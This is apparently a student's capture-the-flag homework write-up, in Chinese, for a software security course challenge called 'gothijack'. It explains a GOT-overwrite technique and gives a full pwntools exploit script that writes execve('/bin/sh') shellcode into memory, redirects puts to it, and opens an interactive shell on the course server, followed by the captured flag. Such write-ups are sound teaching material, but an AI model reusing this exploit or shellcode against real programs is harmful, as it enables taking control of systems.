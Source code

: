 # Software Security Hw02

本題的main funtion執行時可以複寫一個記憶體位置
前面username以及target_address的空間大小都不夠我塞入shellcode(37byte)

於是我決定先複寫最後puts的got回到main，讓我有辦法一直對記憶體位置作寫入, 最後在複寫puts的got到shellcode的起始位置

以下為我的script

```python
#!/usr/bin/env python

from pwn import *

r = remote('csie.ctf.tw', 10129)
# r = process('./gothijack')

shellcode = ['\x48\xc7\xc0\x3b\x00\x00\x00\x48',
             '\xbb\x2f\x62\x69\x6e\x2f\x73\x68',
             '\x00\x53\x48\x89\xe7\x48\xc7\xc6',
             '\x00\x00\x00\x00\x48\xc7\xc2\x00', 
             '\x00\x00\x00\x0f\x05']

name = 'Andy'
start = 0x601100
puts_got = 0x601020
main = 0x40090e


r.send(name)
sleep(0.5)
r.send(hex(puts_got))
sleep(0.5)
r.send(p64(main))
sleep(0.5)

for i in range(0,5):
    r.send(name)
    sleep(0.5)
    r.send( hex(start + i*0x8) )
    sleep(0.5)
    r.send(shellcode[i])
    sleep(0.5)

r.send(name)
sleep(0.5)
r.send(hex(puts_got))
sleep(0.5)
r.send(p64(start))
sleep(0.5)

r.recv()
r.interactive()

```

```
FLAG{G0THiJJack1NG}
附註: 解題完之後上網搜尋一下原來有27byte的Shellcode...多繞了不少圈。
```
